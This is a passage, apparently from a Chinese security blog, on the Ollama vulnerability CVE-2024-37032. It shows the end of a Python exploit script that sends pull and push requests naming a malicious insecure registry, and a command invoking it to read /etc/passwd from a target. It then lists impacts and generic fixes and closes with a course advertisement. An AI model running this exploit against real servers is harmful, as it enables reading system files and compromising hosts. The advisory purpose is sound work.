 ```
    push_url = f"{target_url}/api/push"

# Now proceed with the requests
    requests.post(pull_url, json={"name": vuln_registry_url,"insecure":True})
    sleep(SLEEP_TIME)
    requests.post(push_url, json={"name": vuln_registry_url,"insecure":True})

# Join the server thread if you want to wait for the server to finish (optional)

    server_thread.join()

```  
```
```  
  
python3 main.py --file '/etc/passwd' --target localhost  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGrvv2qYlnHsYyYWUnZPRk3QUFIBr5T4N6cR4bU16ciaDlUG5XIfQLv4ibBBakhX3AbfBzODvDa3r8bg/640?wx_fmt=png&from=appmsg "")  
## 漏洞影响  
  
该漏洞的影响范围广泛，可能导致以下后果：  
- • **数据泄露**：攻击者可以通过执行任意代码，窃取敏感数据。  
  
- • **系统瘫痪**：恶意代码可能导致系统崩溃或服务中断。  
  
- • **进一步渗透**：攻击者可以利用该漏洞作为跳板，进一步渗透到内部网络。  
  
## 修复建议  
  
为了防范CVE-2024-37032漏洞带来的风险，建议采取以下措施：  
1. 1. **及时更新**：确保Ollama系统及时更新到最新版本，修复已知漏洞。  
  
1. 2. **加强监控**：部署有效的安全监控系统，及时发现并响应异常行为。  
  
1. 3. **权限控制**：严格限制系统权限，避免攻击者利用低权限账户进行攻击。  
  
1. 4. **安全培训**：加强员工的安全意识培训，提高整体安全防护水平。  
  
## 总结  
  
CVE-2024-37032漏洞再次提醒我们，安全无小事。无论是开源项目还是商业软件，都需要时刻保持警惕，及时修复漏洞，确保系统的安全性。希望本文能帮助你更好地理解这个漏洞，并采取有效的防范措施。  
  
**关注黑伞安全**，获取更多安全资讯和技术干货！  
  
#网络安全 #漏洞分析 #CVE-2024-37032 #Ollama #RCE漏洞  
  
如果你是一个长期主义者，欢迎加入我的知识星球,我们一起冲，一起学。2025 年春节推出内部云安全课程，后续涨价 159 元。每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpcY6gfCIxenk0q7P2HTb6zldNBBUcicPWcznpg5HxMcbvvWF5aAFj3sPJC7yYI5PUibHib7Vo9xWCicw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
